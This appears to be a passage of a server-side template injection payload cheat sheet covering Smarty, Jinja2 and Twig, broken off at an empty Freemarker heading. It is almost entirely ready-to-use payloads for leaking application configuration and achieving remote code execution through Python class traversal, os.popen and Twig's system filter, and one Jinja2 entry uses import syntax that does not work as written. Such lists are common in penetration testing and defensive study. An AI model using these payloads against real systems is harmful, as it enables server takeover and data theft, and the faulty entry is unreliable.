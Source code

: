 #### Smarty (PHP)
```
{$smarty.version}
{php}echo 7*7;{/php}
```

## Basic Exploitation by Template Engine

### Jinja2/Twig (Python)

#### Basic Information Disclosure
```
{% raw %}
{{ config }}
{{ config.items() }}
{{ self.__dict__ }}
{{ request }}
{{ request.environment }}
{{ url_for.__globals__ }}
{% endraw %}
```

#### Remote Code Execution
```
{% raw %}
# Access to Python built-ins
{{ ''.__class__.__mro__[1].__subclasses__() }}

# Find a useful class for RCE
{{ ''.__class__.__mro__[1].__subclasses__()[<index of subprocess.Popen>]('id', shell=True, stdout=-1).communicate()[0].strip() }}

# Alternative using __import__
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}

# More direct approach with import
{% import os %}{{ os.popen('id').read() }}
{% endraw %}
```

### Twig (PHP)

#### Basic Exploitation
```
{% raw %}
{{_self.env.display("id")}}
{{_self.env.createTemplate("{{phpinfo()}}")}}
{{['id']|filter('system')}}
{% endraw %}
```

### Freemarker (Java)
